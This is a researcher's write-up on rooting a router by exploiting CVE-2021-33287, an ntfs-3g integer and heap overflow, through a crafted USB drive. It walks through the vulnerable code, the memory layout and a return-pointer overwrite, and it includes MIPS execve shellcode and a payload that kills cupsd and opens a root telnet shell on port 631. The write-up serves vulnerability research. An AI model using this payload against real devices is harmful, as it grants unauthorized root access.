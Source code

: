 ## Technical writeup

### First things first

To make this research possible I first had to get the firmware image to analyze. Unforunately the firmware isn't available on the internet. This meant I had to extract it myself.

### Extracting the firmware

My first thought was that rooting this device would just require connecting to the serial port on the board and a linux shell would probably be accessible. I was wrong. Not even interrupting the bootloader - u-boot, worked.

This left reading the NAND directly as my next best bet.

### ... directly from the NAND

To read the NAND i've [used the ftdi chip](https://spritesmods.com/?f=had&art=ftdinand).

I won't go into too much details about extracting the firmware images as you can find more info in my [mati7337/orange-config](https://github.com/mati7337/orange-config) repo.

### The vulnerability

This exploit uses CVE-2021-33287, which got patched by adding more attribute consistency checks.

This vulnerability is a heap overflow that happens due to an integer overflow when reading and writing attributes. Calling it a heap overflow might be kind of an understatement, as you can specify both the length and an offset. The offset can even point to the memory before the buffer by overflowing the address.

The vulnerability is in the ntfs_attr_pread_i and ntfs_attr_pwrite functions.

Let's look at the vulnerable code from `ntfs_attr_pread_i`

```C
val = (char*)ctx->attr + le16_to_cpu(ctx->attr->value_offset);
if (val < (char*)ctx->attr || val +
		le32_to_cpu(ctx->attr->value_length) >
		(char*)ctx->mrec + vol->mft_record_size) {
	errno = EIO;
	ntfs_log_perror("%s: Sanity check failed", __FUNCTION__);
	goto res_err_out;
}
memcpy(b, val + pos, count);
```

The overflow happens when adding val + pos in the memcpy line. The type of pos is s64, which is typedefed as int64_t, and it's a value passed by the user when reading the file. So e.g. if val is 0x13 and pos is 0xffffffff the resulting pointer will be 0x12.

The problem with this is that pos has to be < value length. This makes sense, as users shouldn't be able to read beyond attribute's data.

Sanity check verifies that val + value_length > mrec + mft_record_size, so there is a size limit for attribute value, so we can't go beyond the mft record size. Or can we? We actually can overflow that as well. It only checks if the start of value is after beginning of attribute and end is before the end, but with this trick we have an attribute that ends before the beginning, so we pass these checks.

Even though kernel.randomize_va_space is set to 2, only the stack address seems to be randomized, so to get to it we need to find a pointer to it elsewhere. Luckily there's mount_dst string pointer in the data section of ntfs-3g at 0x41c610 which points to the stack.

The problem is that even though `exploit.c` uses pread which can be used to read only 4 bytes, ntfs-3g still tries to read a 4096 byte block. This starts to be a problem when reading unallocated memory, as it segfaults the program. My solution to this is to read memory from the ntfs-3g elf file and calculate a correct attribute offset for the reads to be page aligned. The problem is that the address where the buffer we write/read data to/from can change position. This means that sometimes it's necessary to unplug and plug back the usb stick, but most of the times it works without problems

Here's what the memory map of ntfs-3g looks like

```
00400000-0040d000 r-xp 00000000 1f:0a 325        /bin/ntfs-3g
0041c000-0041d000 rw-p 0000c000 1f:0a 325        /bin/ntfs-3g
0041d000-00482000 rwxp 00000000 00:00 0          [heap]
2aaa8000-2aaad000 r-xp 00000000 1f:0a 1897       /lib/ld-uClibc.so.0
2aaad000-2aaae000 rw-p 00000000 00:00 0
2aabc000-2aabd000 r--p 00004000 1f:0a 1897       /lib/ld-uClibc.so.0
2aabd000-2aabe000 rw-p 00005000 1f:0a 1897       /lib/ld-uClibc.so.0
2aabe000-2ab39000 r-xp 00000000 1f:0a 1872       /lib/libntfs-3g.so.49.0.0
2ab39000-2ab48000 ---p 00000000 00:00 0
2ab48000-2ab4a000 rw-p 0007a000 1f:0a 1872       /lib/libntfs-3g.so.49.0.0
2ab4a000-2ab56000 r-xp 00000000 1f:0a 1806       /lib/libpthread.so.0
2ab56000-2ab65000 ---p 00000000 00:00 0
2ab65000-2ab66000 r--p 0000b000 1f:0a 1806       /lib/libpthread.so.0
2ab66000-2ab6b000 rw-p 0000c000 1f:0a 1806       /lib/libpthread.so.0
2ab6b000-2ab6d000 rw-p 00000000 00:00 0
2ab6d000-2ab97000 r-xp 00000000 1f:0a 1912       /lib/libgcc_s.so.1
2ab97000-2aba7000 ---p 00000000 00:00 0
2aba7000-2aba8000 rw-p 0002a000 1f:0a 1912       /lib/libgcc_s.so.1
2aba8000-2ac01000 r-xp 00000000 1f:0a 1893       /lib/libc.so.0
2ac01000-2ac10000 ---p 00000000 00:00 0
2ac10000-2ac11000 r--p 00058000 1f:0a 1893       /lib/libc.so.0
2ac11000-2ac12000 rw-p 00059000 1f:0a 1893       /lib/libc.so.0
2ac12000-2ac17000 rw-p 00000000 00:00 0
7f913000-7f928000 rwxp 00000000 00:00 0          [stack]
```

After this the process was pretty straight forwards, as the stack is marked as executable. `exploit.c` overwrites the return pointer from fuse_loop and sets it to a stack address where we write our shellcode.

After accidentally trying to use x86 syscalls on mips and failing miserably I came up with the following:

```
li $v0, 4011;       # SYS_EXECVE
li $a0, 0x00000000; # char *const pathname
li $a1, 0x00000000; # char *argv[]
li $a2, 0x00000000; # char *const envp[]
syscall
```

The null pointers are changed from exploit.c to the actual addresses on stack by `exploit.c`.

Another problem is that I couldn't connect to the telnet server. It turns out that incoming connections to other ports are blocked even from the LAN. I solved it by stealing the 631 port from cupsd by killing it.

Here's the final payload that gets passed to SYS_EXECVE:

```shell
sh -c "killall -SIGKILL cupsd ; telnetd -l /bin/sh -p 631 -b 192.168.1.1 -F"
```

After correctly modifying data on the stack we can finally unmount the usb stick, either from the interface or by physically unplugging the drive. This will activate the shellcode, kill cupsd and run telnetd on port 631.
